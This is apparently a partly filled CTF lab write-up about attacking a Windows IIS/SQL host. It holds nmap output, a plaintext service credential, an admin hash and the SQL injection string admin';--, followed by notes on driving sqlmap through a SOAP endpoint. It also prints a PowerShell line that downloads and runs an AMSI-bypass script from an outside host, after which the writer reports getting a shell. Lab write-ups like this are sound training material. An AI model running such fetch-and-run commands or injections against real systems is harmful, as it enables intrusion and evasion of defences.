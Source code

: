 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: 
- IP: `.24`

# Findings
### Credentials
`FoundCREDs`
## External
### Enumeration
```
PORT     STATE SERVICE       REASON         VERSION
80/tcp   open  http          syn-ack ttl 64 Microsoft IIS httpd 10.0
|_http-favicon: Unknown favicon MD5: 606A799E214585B4C12A462FB92E36E5
|_http-title: Offshore Dev
| http-methods:
|   Supported Methods: GET HEAD OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack ttl 64
3389/tcp open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
| ssl-cert: Subject: commonName=WEB-WIN01.corp.local
| Issuer: commonName=WEB-WIN01.corp.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-07-01T03:20:05
| Not valid after:  2024-12-31T03:20:05
| MD5:   e840:a87c:c808:2c8a:0eaa:e863:9fcc:0b6b
| SHA-1: 5e0f:25db:9521:83d3:5cdb:d332:567c:fff7:bbc0:49a4
```
![](https://i.imgur.com/auK25s3.png)
- I used this on the HTTP auth` svc_iis : Vintage!`
### Gaining Access
![](https://i.imgur.com/Bt099tF.png)
![](https://i.imgur.com/6cHZrvz.png)
![](https://i.imgur.com/py2aO6s.png)
`admin';--`
![](https://i.imgur.com/Bawg0jI.png)


![](https://i.imgur.com/oaibEQo.png)
![](https://i.imgur.com/mWeNxhF.png)
- `os-shell` doesnt work
- ` admin : eb900f7d1ed53c96cd85dddb49c8ed4a `
![](https://i.imgur.com/pRWZUxy.png)
- it is soap so i parsed it to wsdl, by adding `?wsdl` to the url an dusing the burp `wsdler` -> parse to wsdl
- ![](https://i.imgur.com/HktA14M.png)
Then i added it to sqlmap and boom
![](https://i.imgur.com/XUeCkhY.png)
`IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.2/amsi-bp1.ps1')`
- when i try to get shell with sqlmap i got error on the xp_cmdshell but it open the shell so. i tried this on my computer
![](https://i.imgur.com/PpNZZ64.png)
![](https://i.imgur.com/OtslnI4.png)
- i got shell on [[SQL01]]
## Internal
### Enumeration
`$enum$`

### Gaining Access


### Maintaining Access


# Random Notes